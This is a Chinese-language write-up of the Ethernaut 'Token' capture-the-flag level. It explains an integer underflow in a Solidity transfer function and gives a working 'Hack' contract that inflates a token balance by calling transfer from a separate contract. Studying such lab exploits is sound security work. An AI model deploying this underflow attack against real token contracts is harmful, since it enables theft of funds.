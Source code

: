 # Token

## 题目

目标：你最开始有20个 token, 如果你通过某种方法可以增加你手中的 token 数量,你就可以通过这一关,当然越多越好

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

## 分析

先看编译器版本，`^0.6.0`，且没用SafeMath库，所以可能出现整数溢出漏洞

我们想要获取更多的钱，只有transfer这个方法。我们发现`balances[msg.sender] - _value >= 0`这个代码有问题，满足整数溢出漏洞的情况。他说我们一开始有20代币，然后我将我的钱包地址输入`balanceOf(address _owner)`，确实有20。然后我认为，只要transfer的_value参数大于20，就会发生整数溢出漏洞，我的钱数就会变得很大。

然后我就这么操作：

![image-20221222222703408](05.Token/image-20221222222703408.png)

但是这样是失败的，我的钱数还是20没变化。分析原因：下面这两行代码，`balances[msg.sender] - _value >= 0`(20-666溢出了，所以可以通过检测)。然后`balances[msg.sender] -= _value`，我的钱包20元减去666会溢出变成一个很大的数，但是`balances[_to] += _value`又往我的钱包加了666，那么再次溢出变回20元。

```solidity
function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }
```

为什么会出现这个情况呢？因为我们接收钱的地址`_to`和`msg.sender`是一样的，所以钱数不会变。因此我们的`_to`和msg.sender要设置成不一致的，即：我们可以用合约来调用函数，这样合约就是`msg.sender`，我的钱包地址是`_to`，这样就满足了条件

## 攻击代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}

contract Hack{
	//题目地址
    Token token = Token(0x11a797d3EA336b54Cd48658F873282E2489AF42b);
    function attack() public{
    	//第一个参数是我的钱包地址
        token.transfer(0xd3E65149C212902749D49011B6ab24bba30D97c6, 666);
    }
}
```

## 做题

获取实例，发起攻击：我的钱包地址20+666=686元

![image-20221222222210939](05.Token/image-20221222222210939.png)

同时发现合约的余额变成一个很大的数：`0-666=115792089237316195423570985008687907853269984665640564039457584007913129639270`

![image-20221222223410520](05.Token/image-20221222223410520.png)

通过

![image-20221222222028714](05.Token/image-20221222222028714.png)





